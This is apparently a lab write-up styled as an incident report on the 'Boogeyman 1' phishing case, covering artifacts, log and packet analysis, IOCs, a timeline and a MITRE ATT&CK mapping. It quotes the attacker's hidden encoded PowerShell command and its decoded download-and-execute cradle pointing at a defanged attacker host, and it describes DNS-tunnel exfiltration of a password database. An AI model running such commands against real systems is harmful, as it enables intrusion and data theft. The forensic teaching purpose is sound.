








# Boogeyman 1

**Boogeyman 1 Incident Report**

**Indices:**

1. **Briefing**
2. **Artifacts**
3. **Investigation**
4. **IOCs**
5. **Timeline**
6. **MITRE ATT&CK Mapping**

**1.Briefing :**

Julianne, a fi nance employee working for Quick Logistics LLC, received a follow-up email regarding an unpaid invoice from their business partner, B Packaging Inc. Unbeknownst to her, the attached document was malicious and compromised her workstation.

The security team was able to flag the suspicious execution of the attachment, in addition to the phishing reports received from the other fi nance department employees, making it seem to be a targeted attack on the fi nance team. Upon checking the latest trends, the initial TTP used for the malicious attachment is attributed to the new threat group named Boogeyman, known for targeting the logistics sector.

**2.Artifacts :**

- Copy of the phishing email (dump.eml)
- Powershell Logs from Julianne's workstation (powershell.json)
- Packet capture from the same workstation (capture.pcapng)

**3.Investigation :**

Received mail :

received from : Arthur Griffin <[agriffin@bpakcaging.xyz](mailto:agriffin@bpakcaging.xyz)>

received file : invoice.zip with password: Invoice2023!

we use lnkparse on the extracted file Invoice_20230103.lnk

we found an interesting power shell command

- nop -windowstyle hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==

iex (new-object net.webclient).downloadstring('hxxp[://]files[.]bpakcaging[.]xyz/update')

now moving onto the winlogs we use this command to extract all used commands

cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[] | {ScriptBlockText}' | grep -v Set-StrictMode

here we find that :

he downloaded a file from 'hxxp[://]files[.]bpakcaging[.]xyz/update’

then created a shell with this domain cdn[.]bpakcaging[.]xyz

then downloaded Invoke-Seatbelt.ps1 from github

then downloaded sb.exe from hxxp[://]files[.]bpakcaging[.]xyz/sb[.]exe

then downloaded this last file sq3.exe

we find this domain line[.]bpakcaging[.]xyz in an nslookup by which the attacker extracts the data to

this means the attacker extracted the data using DNS tunneling

now onto analyzing the packet capture file

in wire shark by using this filter http.host contains "bpakcaging.xyz"

we find the whole communication that went between the attacker and the victim

now we use this filter http.host contains "bpakcaging.xyz" && http.request.method == "POST”

to find that the attacker used to query commands over POST requests to victim

**4. IOCs**

| **Type** | **Indicator** | **Description** |
| --- | --- | --- |
| **Email Address** | agriffin@bpakcaging.xyz | Sender address used for the targeted phishing email. |
| **Domain** | files.bpakcaging.xyz | Domain used to host the initial update payload, as well as sb.exe and sq3.exe. |
| **Domain** | cdn.bpakcaging.xyz | Command and Control (C2) domain used to issue commands to the victim's machine. |
| **Domain** | *.bpakcaging.xyz | Domain structure utilized for data exfiltration via DNS tunneling. |
| **IP Address** | 167.71.211.113 | IP address hosting files.bpakcaging.xyz and acting as the destination for DNS exfiltration queries. |
| **IP Address** | 159.89.205.40 | Destination IP address handling the C2 HTTP POST and GET requests for cdn.bpakcaging.xyz. |
| **File** | invoice.zip | Password-protected malicious archive (password: Invoice2023!) attached to the phishing email. |
| **File** | Invoice_20230103.lnk | Malicious shortcut file extracted from the ZIP archive that executes the initial PowerShell payload. |
| **File** | sb.exe | Executable downloaded by the attacker to run Seatbelt for system enumeration. |
| **File** | sq3.exe | SQLite3 executable downloaded to query the local Sticky Notes database. |

**5. Timeline**

- **January 13, 2023, 09:25:26 UTC**: Julianne Westcott receives a spearphishing email from Arthur Griffin containing the password-protected attachment invoice.zip.
- **January 13, 2023, 17:10:09 UTC**: The victim executes Invoice_20230103.lnk, which triggers a hidden, encoded PowerShell command to download a payload from [http://files.bpakcaging.xyz/update](http://files.bpakcaging.xyz/update) via IP 167.71.211.113.
- **January 13, 2023, 17:10:10 UTC**: The workstation establishes a Command and Control (C2) connection, communicating via HTTP GET and POST requests to 159.89.205.40.
- **Post-Infection Actions**:
    - The attacker executes basic discovery commands such as whoami, pwd, and ls through the C2 shell.
    - The attacker downloads Invoke-Seatbelt.ps1 from GitHub and sb.exe from files.bpakcaging.xyz, then executes sb.exe to enumerate the system.
    - The attacker downloads sq3.exe to access the victim's AppData and queries the Sticky Notes database (plum.sqlite) with SELECT * from NOTE limit 100.
    - The attacker navigates to the Documents folder and locates a sensitive file named protected_data.kdbx.
    - The attacker runs a PowerShell script to convert protected_data.kdbx into hex format and exfiltrates it utilizing DNS tunneling via nslookup queries directed to 167.71.211.113.

**6. MITRE ATT&CK**

| **Tactic** | **Technique (ID)** | **Observation** |
| --- | --- | --- |
| **Initial Access** | Phishing: Spearphishing Attachment (T1566.001) | The attacker sent a targeted email containing a malicious ZIP archive to compromise the workstation. |
| **Execution** | Command and Scripting Interpreter: PowerShell (T1059.001) | The .lnk file executed a PowerShell command to download and run the initial payload into memory. |
| **Defense Evasion** | Obfuscated Files or Information (T1027) | The attacker utilized a Base64-encoded string and a hidden window style (-windowstyle hidden -enc) to conceal the initial PowerShell execution. |
| **Discovery** | System Information Discovery (T1082) & File and Directory Discovery (T1083) | The attacker executed standard shell commands (whoami, ls, pwd) and used Seatbelt (sb.exe) to enumerate the victim's environment and locate sensitive files. |
| **Collection** | Data from Local System (T1005) | The attacker gathered intelligence by extracting notes from plum.sqlite and locating the protected_data.kdbx password database. |
| **Command and Control** | Application Layer Protocol: Web Protocols (T1071.001) | The attacker communicated with the compromised machine using HTTP GET and POST requests to a centralized server (cdn.bpakcaging.xyz). |
| **Exfiltration** | Exfiltration Over Alternative Protocol (T1048) | The attacker exfiltrated the protected_data.kdbx file by converting it to hex chunks and transmitting it out of the network via DNS tunneling (nslookup queries). |